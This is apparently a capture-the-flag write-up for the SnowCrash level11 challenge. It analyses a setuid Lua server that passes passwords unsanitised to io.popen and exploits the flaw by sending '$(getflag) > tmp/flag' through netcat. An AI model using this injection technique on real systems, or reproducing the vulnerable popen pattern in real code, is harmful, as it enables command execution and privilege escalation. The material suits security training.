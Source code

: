 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

What we can understand:
- A server seems to be set up on our `localhost` on port `5151`
- It will ask for a passord
- Will sends this password in a hash function
- Will apply a sha1sum on it
- Will return the 40 first characters of it
- And will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

`popen` is known for its vunerability to command injections, as it will execute code, see: 
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So `io.popen` starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program `level11.lua` will execute 
```bash
echo "..pass.." | sha1sum
```
`echo "$(command)"` will execute the command.

So we have to send `$(getflag)` as a password to the program. How to connect on port `5151` ? </br>

```bash
level11@SnowCrash:~$ curl http://localhost:5151
Password: Erf nope..
```
Fails, remembered previous level `netcat`command.

## Solution

Let's listen to our `localhost` port `5151`:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```
don't return the flag.

Maybe on a different file: 
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXX
```
